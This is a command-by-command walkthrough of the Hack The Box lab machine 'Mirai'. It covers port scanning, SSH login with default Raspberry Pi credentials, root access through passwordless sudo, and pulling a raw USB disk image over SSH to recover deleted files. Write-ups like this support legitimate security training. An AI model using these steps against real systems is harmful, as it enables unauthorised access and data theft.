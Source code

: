 Here’s a clean, organized **walkthrough-style command reference** for **HTB: Mirai**, grouped by stage and including explanations for each step:

---

# 🧠 HTB: Mirai — Command Writeup

## 🛰️ Recon

### 🔍 Full Port Scan (All TCP Ports)
```bash
nmap -p- --min-rate 10000 10.10.10.48
```
> Scans all 65535 TCP ports with high speed. Found ports: 22 [SSH](SSH), 53 [DNS](DNS), 80 (HTTP), 1877 (UPnP), 32400 (Plex), 32469 (UPnP).

### 🔍 Targeted Service & Version Detection
```bash
nmap -p 22,53,80,1877,32400,32469 -sCV 10.10.10.48
```
> Runs default scripts and version detection on open ports.

### 🌐 Directory Brute-Force
```bash
feroxbuster -u http://10.10.10.48
```
> Discovers `/admin`, `/admin/scripts`, `/admin/img`, etc. — confirms it's a Pi-hole admin interface.

---

## 🔓 Shell as `pi` (User)

### 🔐 Attempt Default Raspberry Pi SSH Credentials
```bash
sshpass -p raspberry ssh pi@10.10.10.48
```
> Logs in successfully using default creds: `pi:raspberry`.

### 📄 Capture User Flag
```bash
cat ~/Desktop/user.txt
```

---

## 🧑‍💼 Shell as `root`

### 🔍 Check `sudo` Privileges
```bash
sudo -l
```
> Shows `pi` can run **ALL commands as root** without password.

### 🔁 Elevate to Root
```bash
sudo su -
# OR
sudo -i
```

---

## 🧪 Root Flag Recovery

### 🔍 Inspect Mounted Devices
```bash
mount
# or
lsblk
```
> Identifies `/dev/sdb` mounted as `/media/usbstick`.

### 🔍 Locate Files on USB Stick
```bash
cd /media/usbstick
find . -ls
```
> Sees `damnit.txt` and empty `lost+found`; no `root.txt`.

### 🔍 Search for 32-char Hex Flag (using `grep`)
```bash
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
```

### 🔍 Alternative: Search Printable Strings
```bash
strings /dev/sdb -n 32
```

---

## 📦 Optional: Extract Disk Image for Offline Analysis

### 🧲 Copy USB Disk to Local Machine
```bash
sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
```

### 🗜️ Decompress & Analyze
```bash
gunzip usb.gz
file usb     # Confirm it's an ext4 FS
```

### 🧱 Recover Deleted Files (with `extundelete`)
```bash
extundelete usb --restore-all
ls RECOVERED_FILES/
cat RECOVERED_FILES/root.txt
```